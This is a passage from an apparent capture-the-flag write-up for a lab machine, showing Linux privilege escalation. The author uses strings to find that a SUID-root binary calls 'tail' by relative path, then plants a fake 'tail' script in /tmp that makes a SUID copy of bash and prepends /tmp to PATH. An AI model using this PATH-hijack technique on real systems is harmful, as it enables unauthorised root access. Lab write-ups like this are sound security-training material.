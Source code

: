  ```
  /bin/fusermount
  /bin/su
  ```
  
- Hmmmm, that `live_log` file is very suspicious so let's check it out. It's bunch of globglub when you use `cat` on it, but `strings` is DA GOAT for this stuff.

  ```
  barry@mustacchio:/$ cd /home/joe
  barry@mustacchio:/home/joe$ ls -al
  total 28
  drwxr-xr-x 2 joe  joe   4096 Jun 12  2021 .
  drwxr-xr-x 4 root root  4096 Jun 12  2021 ..
  -rwsr-xr-x 1 root root 16832 Jun 12  2021 live_log

  barry@mustacchio:/home/joe$ strings live_log

  [SNIP!]
  []A\A]A^A_
  Live Nginx Log Reader
  tail -f /var/log/nginx/access.log
  :*3$"
  GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
  [SNIP!]
  ```
  
- Nice, it's executing `tail` command, in order to exploit it we will just create a fake `tail` file which will be our exploit, add it to path and make it executable. Let's do it!

  ```
  barry@mustacchio:/home/joe$ cd /tmp
  barry@mustacchio:/tmp$ ls -al
  total 28
  drwxrwxrwt  7 root root 4096 May 19 13:00 .
  drwxr-xr-x 24 root root 4096 May 19 12:26 ..
  drwxrwxrwt  2 root root 4096 May 19 12:25 .font-unix
  drwxrwxrwt  2 root root 4096 May 19 12:25 .ICE-unix
  drwxrwxrwt  2 root root 4096 May 19 12:25 .Test-unix
  drwxrwxrwt  2 root root 4096 May 19 12:25 .X11-unix
  drwxrwxrwt  2 root root 4096 May 19 12:25 .XIM-unix
  
  barry@mustacchio:/tmp$ nano tail

  #!/bin/bash
  cp /bin/bash /tmp/bash
  chmod +s /tmp/bash
  
  barry@mustacchio:/tmp$ ls -al
  total 32
  drwxrwxrwt  7 root  root  4096 May 19 13:04 .
  drwxr-xr-x 24 root  root  4096 May 19 12:26 ..
  drwxrwxrwt  2 root  root  4096 May 19 12:25 .font-unix
  drwxrwxrwt  2 root  root  4096 May 19 12:25 .ICE-unix
  -rw-rw-r--  1 barry barry   54 May 19 13:04 tail
  drwxrwxrwt  2 root  root  4096 May 19 12:25 .Test-unix
  drwxrwxrwt  2 root  root  4096 May 19 12:25 .X11-unix
  drwxrwxrwt  2 root  root  4096 May 19 12:25 .XIM-unix

  barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
  barry@mustacchio:/tmp$ chmod +x /tmp/tail
  ```
